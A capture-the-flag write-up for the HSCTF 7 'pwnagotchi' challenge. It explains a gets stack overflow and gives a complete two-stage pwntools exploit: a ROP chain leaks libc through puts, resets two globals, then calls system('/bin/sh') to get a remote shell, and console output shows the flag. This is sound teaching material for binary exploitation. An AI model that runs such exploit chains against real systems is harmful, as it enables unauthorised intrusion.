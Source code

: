 # HSCTF 7

## pwnagotchi

> 116
>
> Have fun with your new pwnagotchi!
>
> Connect to view your `\ (•-•) /` at `nc pwn.hsctf.com 5005`
>
> Author: meow
>
> [`pwnagotchi `](pwnagotchi)

Tags: _pwn_ _bof_ _rop_ _x86-64_ _remote-shell_


## Summary

From infamous `gets` to ROPing a second pass after leaking libc to land a shell.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

GOT, BOF, and ROP exploitable.

    
### Decompile with Ghidra

![](main.png)

> I get one of these a week (_groan_).  I'm only writing this one up because there's a _gotcha_.

`gets` + no canary + no PIE = easy ROP.

`local_14` is `0x14` bytes from the return address.

Simple two-pass attack.  Leak libc and _return-to-main_ for a second pass to get a shell.

_So where's the gotcha?_

Line 16 has a global (`once`) that if set will prevent a second pass from getting to `gets`, _unless_ `sleepy` and `hungry` are reset.

Fortunately, the following two ROPable functions are provided:


```c
void eat(void)

{
  puts("om nom nom");
  hungry = 0;
  return;
}
```

```c
void zzz(void)

{
  int iVar1;
  
  puts("zzz...");
  iVar1 = rand();
  sleep(iVar1 % 3 + 1);
  sleepy = 0;
  return;
}
```

This is a minor twist on a frequent trope from undergrad/highschool CTFs.


## Exploit

### Attack Plan

1. First Pass: Leak libc and _return-to-main_
2. Second Pass: Get a shell, get the flag.


### First Pass: Leak libc and _return-to-main_

```python
#!/usr/bin/python3

from pwn import *

#p = process('./pwnagotchi')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('pwn.hsctf.com', 5005)
libc = ELF('libc-database/db/libc6_2.27-3ubuntu1_amd64.so')

binary = ELF('pwnagotchi')

context.update(arch='amd64')
rop = ROP('pwnagotchi')
try:
    pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

p.recvuntil('Enter your pwnagotchi\'s name:')

payload  = 0x14 * b'A'
payload += p64(pop_rdi)
payload += p64(binary.got['puts'])
payload += p64(binary.plt['puts'])
payload += p64(binary.symbols['eat'])
payload += p64(binary.symbols['zzz'])
payload += p64(binary.symbols['main'])

p.sendline(payload)

p.recvuntil('is not happy!\n')
_ = p.recv(6)
puts = u64(_ + b'\x00\x00')
print(hex(puts))
baselibc = puts - libc.symbols['puts']
print(hex(baselibc))
```

Please read [https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop](https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop) for details on how this exploit works. The only different here is the use of `puts` vs. `printf` to leak libc and the calls to `eat` and `zzz` to reset `speepy` and `hungry`.

In short, smash the stack, pop rdi to leak the address of `puts`, compute the version and location of libc, eat, sleep, repeat.


### Second Pass: Get a shell, get the flag.

```python
p.recvuntil('Enter your pwnagotchi\'s name:')

payload  = 0x14 * b'A'
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(baselibc + next(libc.search(b"/bin/sh")))
payload += p64(baselibc + libc.symbols['system'])

p.sendline(payload)

p.interactive()
```

Again, please read [https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop](https://github.com/datajerk/ctf-write-ups/tree/master/tjctf2020/stop) for details on how this second-half of the exploit works.


Output:

```
# ./exploit.py
[+] Opening connection to pwn.hsctf.com on port 5005: Done
[*] '/pwd/datajerk/hsctf7/pwnagotchi/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/hsctf7/pwnagotchi/pwnagotchi'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for 'pwnagotchi'
0x7f9dda6789c0
0x7f9dda5f8000
[*] Switching to interactive mode


\ (•◡•) /

AAAAAAAAAAAAAAAAAAAA\xf4	@ is happy!
$ cat flag.txt
flag{theyre_so_cute}
```
